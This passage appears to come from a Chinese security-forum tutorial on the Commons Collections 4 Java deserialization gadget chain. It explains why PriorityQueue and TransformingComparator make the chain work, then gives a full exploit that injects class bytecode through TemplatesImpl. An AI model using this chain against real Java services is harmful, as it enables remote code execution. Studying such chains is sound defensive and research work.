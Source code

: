 - 其实他在`add`方法的时候也会去调用`compare`方法，所以跟URLDNS或者CC3一样都要去反射把值修改一下

‍

- CC4跟CC3的包其实更新了一个版本后在`TransformingComparator`中是有改变的，在CC4中这个类继承了`Serializable`接口导致可以序列化

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4241ad000ac0ccceafb06b369d7761b3b605612d.png)

而在CC3中是并没有进行序列化的继承的

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-acde862d36eb75e45b4caca4781fd0db6e84c367.png)

最后的EXP

```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformingComparatorfield =  c.getDeclaredField("transformer");
        transformingComparatorfield.setAccessible(true);
        transformingComparatorfield.set(transformingComparator,chainedTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
```

‍

